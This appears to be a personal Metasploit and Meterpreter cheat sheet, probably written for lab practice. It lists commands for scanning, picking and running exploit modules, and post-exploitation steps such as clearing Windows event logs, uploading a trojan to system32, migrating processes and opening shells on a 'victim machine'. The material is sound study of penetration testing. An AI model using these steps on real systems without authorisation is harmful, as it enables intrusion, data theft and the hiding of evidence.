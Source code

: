 # Basic Commands I used for metasploit

## Links

[Exploit-db](https://www.exploit-db.com/docs/english/18229-white-paper--post-exploitation-using-meterpreter.pdf)
[Offensive-Security metasploit doc](https://www.offensive-security.com/metasploit-unleashed/)
[Rapid7 metasploit doc](https://docs.rapid7.com/metasploit/)
[Hackers-arise](https://www.hackers-arise.com/metasploit-1)

## Rough listing Metasploit

- `msfconsole` in bash starts the metasploit framework.
- `?/help` for starting help menu.
- `sessions` lists all the current sessions.
- `search <modulename>` searches module names and descriptions.
- `use <path_to_exploit_module/number_fromSearchResult>` select the module specified with the module path.
- `info` displys the module specified with the name.
- `get` gets/shows the value of a context specific variable.
- `getg` gets/shows the value of a global variable.
- `options` displays the available options for the module specified.
- `save` Saves the current settings and datastores in a settings file. Will be able to load again when started.
- `set <option> <value>` sets the value for the specified option for the selected module.
- `set payload` sets the payload to be used for the operation.
- `set <variable> <value>` sets the value of a context specific variable
- `setg <variable> <value>` sets the value of a global variable
- `show <category>` displays the options in specific category
- `spool` write a console.log output on the screen and in a file as well.
- `advanced` displays the advanced options for the module specified.
- `exploit` starts the process of exploitation after the module is selected and configured accordingly.
  - `exploit -j` starts the process of exploitation in the background
  - `exploit -i` starts the process of exploitation in interactive mode. Gives a meterpreter shell after exploitation.

## Rough listing Meterpreter

- `getuid` will return the username of the victim machine.
- `background` sends the meterpreter shell into the background and starts msf shell again.
- `clearev` Will clear application, system and security logs on a windows system.
- `download <filename>` downloads the specified file in the attacker machine.
- `edit <filename>` will start a vim like text editor in the victim machine.
- `execute [flags] <executable>` executes the specified executable in the machine.
- `upload evil_trojan.exe c:\\windows\\system32` uploads file in the victim machine.
- `ps` shows the running processes in the victim machine.
  - `migrate` is used for migrating processes. It's used for privilage escallation as some processes may run with more privilages.
- `shell` starts an interactive shell in the victim machine.
- `search <filename/pattern>` searches the specified file in the victim machine.

## Modules

`load <modulename>` loads the specified module

- `Exploit` holds all the exploit code
- `Payload` holds varius shellcodes
- `Auxiliary` holds code which verify if the machine is exploitable or not
- `Post` holds stuffs related to post exploitation
  - `run post/windows/gather/checkvm` checks if the machine is a vertual machine
  - `run post/multi/recon/local_exploit_suggester` checks the system and suggests possible exploit
- `Encoder` holds stuffs to obfuscate payloads and other stuffs
- `NOP` is used for buffer-overflow or ROP attacks

## Basic Step by Step

**Recon:**

- `db_nmap -sV <ip>`

## Getting data from the database

- `hosts` shows the hosts
- `services` shows the available services scanned by db_nmap
- `vulns` shows the detected vulnerabilities according to the service version. Must include `-sV` while scanning with nmap.

## Searching and Loading Exploits

- `search exploitname` will search for the exploit
- `use <path_to_exploit_module/number_fromSearchResult>` select the module specified with the module path.

## Useful Configurations

- `set LHOST 10.8.215.27` Set the LHOST to use vpn ip
- `set RHOSTS <remote IP>` set the RHOSTS to victim machine
- `set PAYLOAD <payload-path>` Set the payload to be used

## Post Exploitation

- `ps` lists all the processes running
- `migrate` tries to migrate to another process
- `getuid` gets the uid of the current user privilage we have
- `sysinfo` gets more information about the system. eg: OS, version, etc
- `getprivs` gets the privilages of the current user
- `upload <localdevicepath>` upload a file in the victim machine
- `run <modulename>` run a metasploit module
- `ipconfig` Shows the networking information
- `shell` will spawn a normal system shell in victim machine
-
